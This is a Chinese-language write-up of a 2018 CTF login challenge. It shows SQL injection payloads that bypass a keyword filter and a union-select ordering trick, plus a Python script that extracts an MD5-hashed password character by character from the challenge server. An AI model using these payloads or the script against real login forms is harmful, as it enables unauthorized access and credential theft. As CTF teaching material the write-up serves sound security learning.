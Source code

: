 ```yaml
---
title: 2018ZJGSCTFwriteup
date: 2018-05-07 10:36:05
tags:
---
```

没人做那就只能自己写了。
<!--more-->
## [LOGIN](http://10.21.13.154:35353/)
### 1.进入网站后是一个登陆界面，先是随便输入用户名和密码，发现弹窗消息。

 ![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2kur9kayj30c8041jr8.jpg)

根据提示要拿到flag就必须要先找到username。开始先试了admin等一些常规的用户名发现都不行。那就思考后台php中的sql语句是怎么样的根据绕过sql语句来得到username。
``` sql
select * from admin where username='' and password=''
```
### 2.猜测后台中的语句应该是这样的，那就来构造绕过这个使用' or 1=1#使得where后面的结果为真
返回查询结果。输入测试后发现，or ，=，where等词被过滤了。

  ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l3u0hu4j30bt03amwz.jpg)

然后就思考另外的方法来使得where后面的条件为真，可以使用这些方法，'^1^1#,'||1#来绕过这些得到两个重要的提示。

   ![image](http://ww4.sinaimg.cn/large/0069oIoUgy1fr2l88x3ihj30c503ha9w.jpg)

   ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l8p6bxkj30bx037glf.jpg) 
        
知道了password就是flag经过md5加密后的内容那就需要来猜测password的值了
### 3.基于上面有username返回所以是一个回显的注入。那就可以构造如下sql语句来猜测password的名
``` sql
yt_ia_a_handsome_boy' union select 1,2,0x80 order by 3 desc#
```
### 4.由上面提示可以知道password是一串经过md5加密后的16进制字符串利用union select插入一行，并在password
即第三列插入的是16进制的字符串，根据第三列的大小对每行数据进行排序。执行完sql语句，根据页面回显的数据一位一位来猜解password的内容。
显示结果如下：
当插入的16进制值大于password的值会返回如下内容

   ![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2ltl5hu9j30bi02ywea.jpg)
        
当插入的内容小于password的值会返回username的值

  ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2lv97wbrj30bq034glf.jpg)
       
### 5.根据上面测试的情况用python写脚本如下
``` python 
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://10.21.13.154:35353/index.php"
    testStr = makeStr(48,127)
    username = "yt_ia_a_handsome_boy' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "yt_ia_a_handsome_boy" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i
if __name__== '__main__':
    getPassword()
```
### 6.运行后得到password的值
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2lznt8voj30eo09zjre.jpg)
[MD5j解码](http://www.cmd5.com/)后得到flag

